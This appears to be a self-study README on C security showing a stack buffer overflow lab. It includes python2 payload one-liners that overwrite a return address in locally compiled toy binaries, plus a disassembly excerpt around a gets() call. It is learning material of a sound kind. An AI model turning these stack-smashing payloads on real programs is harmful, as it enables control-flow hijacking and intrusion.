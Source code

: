 # Security in C code

This is a self training/blog for my own learning process of security. Do not
expect expert content since I am NOT a security expert. Feel free to rise bugs
if something is wrong or you would like to explore other security attacks.
Feedback more than welcome.

## Buffer Overflow Exploit Example

This example simply exploit the buffer by smashing the stack and modifying the
return address of the function. This will be used to call some other function.
It is based on this good
[tutorial](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/) 
[theory](http://www.cis.syr.edu/~wedu/seed/Book/book_sample_buffer.pdf)


```
    $ gcc vuln.c -o vuln -m32 -O0
    $ python2 -c 'print "a"*32 + "\xb2\x84\x04\x08"' | ./vuln
```
For the case of vuln-variable

```
python2 -c 'print "a"*(4*16 +1)' | ./vuln-variable

```

This is because : 

```
 8048473:       c7 45 f4 00 00 00 00    movl   $0x0,-0xc(%ebp)
 804847a:       83 ec 0c                sub    $0xc,%esp
 804847d:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048480:       50                      push   %eax
 8048481:       e8 aa fe ff ff          call   8048330 <gets@plt>
 8048486:       83 c4 10                add    $0x10,%esp
 8048489:       8b 45 f4                mov    -0xc(%ebp),%eax
 804848c:       85 c0                   test   %eax,%eax

```

Watch this video to get the idea:
[video](https://www.youtube.com/watch?v=T03idxny9jE)
